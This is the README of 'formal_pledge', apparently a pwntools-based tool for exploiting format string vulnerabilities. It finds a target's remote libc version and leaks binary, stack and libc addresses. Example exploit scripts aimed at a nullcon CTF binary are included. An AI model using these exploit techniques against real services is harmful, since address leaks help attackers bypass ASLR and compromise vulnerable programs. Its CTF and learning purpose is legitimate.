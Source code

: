 # formal_pledge

Have a format string vulnerability? You're in the right place!
+ Get the remote LIBC version
+ Quickly get the perfect string to leak all relevant regions! (local only, ASLR off)

To get the LIBC version, **formal_pledge** looks for the `__libc_start_main` return from main, and checks its address against an offset database it builds using [libc-database](https://github.com/niklasb/libc-database) and pwntools [libc_start_main_return](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libc_start_main_return).

# Install
```bash
git clone https://github.com/k4lizen/formal_pledge.git
cd formal_pledge
pip install -e .
```
Then edit the `formal_pledge/libc_database_location.py` file to set the [libc-database](https://github.com/niklasb/libc-database) database location.

# Usage
The idea is to first find the remote LIBC version with `.libcv`, then patch the binary using something like [pwninit](https://github.com/io12/pwninit/), and then leak the binary/stack(/libc) offsets with `.leak` since ASLR needs to be turned off for it.
## Getting LIBC Remote Version
```python
import formal_pledge
# ...
formal_pledge.libcv(exec_function, binary_elf)
```
`exec_function` is a function which takes the payload as the only parameter. Returns the printed format string and the process object (see example). `formal_pledge` will take care of closing the process.

If a `process()` is supplied, exact offset will be calculated with [pwntools elf.libs()](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libs), otherwise if the object is `remote()` only the last 12 bits of the address will be compared.

On the first run, the `offsets.txt` file may need to be populated, this step is skipped in subsequent runs (unless new libc files are added to the database).
## Leaking Binary, Stack and LIBC
```python
import formal_pledge
# ...
formal_pledge.leak(exec_function, binary_elf)
```
`exec_function` is a function which takes the payload as the only parameter. Returns the printed format string and the process object (see example). `formal_pledge` will take care of closing the process. The process needs to be local and have ASLR turned off.

To check which address belongs to which region (if any), some heuristic about usual binary and stack placement is used, while libc is targeted using [pwntools elf.libs()](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libs).

# Examples
Can also be seen/run in the `example` directory.
## Leaking LIBC Remote Version
```python
from pwn import *
import formal_pledge

def start():
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    return process([exe])

def send_payload(payload):
    p = start()
    p.recvuntil(b'>> ')
    p.sendline(payload)
    p.recvline()
    resp = p.recvline()
    return resp, p

# binary from https://ctf.nullcon.net/challenges
exe = './junior_formatter'
elff = context.binary = ELF(exe, checksec=False)

# python exploit.py REMOTE 52.59.124.14 5031
# python exploit.py 
formal_pledge.libcv(send_payload, elff)
```
To run:
```bash
cd example
chmod +x junior_formatter
python exploit_libc.py
```
## InfoLeaking Binary, Stack and LIBC
```python
from pwn import *
import formal_pledge

def send_payload(payload):
    p = process([exe], aslr=False)
    p.recvuntil(b'>> ')
    p.sendline(payload)
    p.recvline()
    resp = p.recvline()
    return resp, p

# binary from https://ctf.nullcon.net/challenges
exe = './junior_formatter'
elff = context.binary = ELF(exe, checksec=False)

# python exploit.py 
formal_pledge.leak(send_payload, elff)
```
To run:
```bash
cd example
chmod +x junior_formatter
python exploit_leak.py
```